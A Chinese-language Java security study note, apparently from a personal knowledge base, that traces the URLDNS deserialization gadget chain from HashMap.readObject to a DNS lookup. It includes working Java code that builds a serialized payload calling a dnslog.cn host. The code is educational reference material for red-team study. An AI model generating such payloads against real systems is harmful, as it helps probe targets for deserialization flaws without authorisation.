









# 03 · 反序列化链 · URLDNS

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3 素材；本线只借它理解 HashMap.readObject → hashCode 的接法

## URLDNS

- 选择HashMap作为入口类，因其是JDK自带类，且重写了readObject()，继承了Serializable接口可进行反序列化，其中可传入参数K范围广，可以传入执行类

  

- 从入口方法readObject开始跟链

  

  一直往下发现`putVal()`中使用`hash()`将key值写入

  

- 跟进hash方法发现在key值不为空时调用了`hashCode()`

  

- 继续跟进`hashCode()`发现其是Object类下的int类型的无参方法

  

- 接着是跟踪利用类URL，其下有与HashMap中同类型的`hashCode()`，当其为-1时便会执行`handler.hashCode()`

  

- 跟踪该方法，进入类URLStreaHandler，发现其下有`getHostAddress()`

  

- 继续深入跟踪该方法回到类URL，最后的利用方法为`InetAddress.getByname()`，也就是执行一次DNS查询

  

- Gadget

  ```java
  HashMap.readObject()
    ->HashMap.putVal()
    	->HashMap.hash()
    		->URL.hashCode()
      		->URLStreaHandler.hashCode()
      		->URLStreaHandler.getHostAddress()
      			->URL.InetAddress.getByname()
      			
  最终的逻辑如下
  HashMap<URL, String>.hashCode() -> URL.hashCode()
  ```

- 利用代码

  ```java
  package URLDNS;
  
  
  import java.io.FileOutputStream;
  import java.io.IOException;
  import java.io.ObjectOutputStream;
  import java.lang.reflect.Field;
  import java.net.URL;
  import java.util.HashMap;
  
  public class SerializationTest {
  
      public static void main(String[] args) throws Exception {
          HashMap<URL, String> hashmap = new HashMap<URL, String>();
          URL url = new URL("http://kbkjap.dnslog.cn\n");
          Class aClass = url.getClass();
          Field hashCodefield = aClass.getDeclaredField("hashCode");
          hashCodefield.setAccessible(true);
          hashCodefield.set(url, 1);
          hashmap.put(url, "URLDNS");
          hashCodefield.set(url, -1);
          serialize(hashmap);
          
          
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
          oos.writeObject(obj);
      }
  
  }
  
  ```
  
  - 这里之所以要利用反射修改hashCode的值是因为`put()`其下也有`hash()`，导致在序列化时就进行了一次DNS查询，会影响结果的判断
  
    
